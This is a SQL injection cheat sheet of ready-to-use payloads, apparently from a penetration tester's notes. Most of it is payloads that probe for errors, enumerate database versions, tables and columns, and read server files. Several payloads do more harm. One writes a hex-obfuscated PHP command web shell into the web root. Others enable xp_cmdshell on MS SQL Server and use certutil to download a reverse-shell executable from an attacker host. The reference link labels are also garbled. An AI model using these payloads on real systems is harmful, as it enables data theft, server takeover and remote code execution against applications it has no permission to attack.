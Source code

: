 PortSwigget Cheat Sheet: https://portswigger.net/web-security/sql-injection/cheat-sheet

Pentestermonkey SQL injection cheat sheet: https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection

## Error
	'
	"
	1 or @@version=1); -- -

## Logic
**Server expects string**

	1' or 'a'='a
	1' or 'a'='b
	') or 1=1; -- -

**Server expects integer**

	1 or 'a'='a'
	1 or 'a'='b'

## Union Select
	1' UNION SELECT null; -- -
	1' UNION SELECT null,null; -- -
	...
	Until the number of fields is found. Then change null for string or integer to find it's type

## Injections

### Info
	1' UNION SELECT null,@@version-- -
	1' UNION SELECT null,version()-- -
	1' UNION SELECT null,sqlite_version()-- -
	1' UNION SELECT null,* FROM v$version-- -
	1' UNION SELECT null,@@database-- -
	1' UNION SELECT null,database()-- -
	1' UNION SELECT null,* FROM information_schema.tables-- -
	1' union select 1,group_concat(schema_name)from information_schema.schemata-- -

### Tables
	1' UNION SELECT null,table_name FROM information_schema.tables-- -
	1' union select 1,group_concat(table_name) from information_schema.tables where table_schema = database()-- -
	1' union select 1, table_name FROM information_schema.tables-- -

### Columns
	1' UNION SELECT null,column_name FROM information_schema.columns where table_name = 'users_owgtcb'-- -
	1' union select 1,group_concat(column_name) from information_schema.tables where table_schema = database()-- -
	id=1' union select 1, column_name FROM information_schema.tables-- -

### Write files
	1' union select 1,'Hello from SQLI' INTO OUTFILE '/var/www/html/shell.php' from [database].queue-- -

###### Write CMD shell
	 1' union select 1,unhex('3C3F7068702073797374656D28245F4745545B22636D64225D29203F3E') INTO OUTFILE '/var/www/html/shell1.php' from [database].queue-- -

### Read files
	1' UNION SELECT 1,LOAD_FILE("/var/www/html/index.php")-- -

## Microsft SQL Server
**Activate xp_cmdshell**

	'; EXEC sp_configure 'show advanced options', 1; RECONFIGURE; EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE; --

Execute command line commands

	'; EXEC xp_cmdshell '[Command]'; --
	'; EXEC xp_cmdshell 'certutil -urlcache -f http://[Attacker IP]:8000/reverse.exe C:\Windows\Temp\reverse.exe'; --


